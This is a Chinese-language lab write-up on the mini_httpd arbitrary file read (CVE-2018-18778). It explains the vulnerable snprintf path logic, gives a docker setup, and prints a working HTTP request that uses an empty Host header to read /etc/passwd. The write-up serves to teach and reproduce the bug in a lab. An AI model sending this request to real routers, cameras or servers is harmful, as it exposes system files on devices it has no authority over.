

mini_httpd 任意文件读取漏洞（CVE-2018-18778）¶
Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。
在mini_httpd开启虚拟主机模式的情况下，用户请求http://HOST/FILE将会访问到当前目录下的HOST/FILE文件。
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
见上述代码，分析如下：
- 当HOST=
example.com、FILE=index.html的时候，上述语句结果为example.com/index.html，文件正常读取。 - 当HOST为空、FILE=
etc/passwd的时候，上述语句结果为/etc/passwd。
后者被作为绝对路径，于是读取到了/etc/passwd，造成任意文件读取漏洞。
参考链接：ss
- https://nvd.nist.gov/vuln/detail/CVE-2018-18778
- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-18778.yaml
环境搭建¶
执行如下命令启动mini_httpd 1.29：
docker compose up -d
环境启动后，访问http://your-ip:8080即可看到Web页面。
漏洞复现¶
发送请求是将Host置空，PATH的值是文件绝对路径：
GET /etc/passwd HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
成功读取文件：
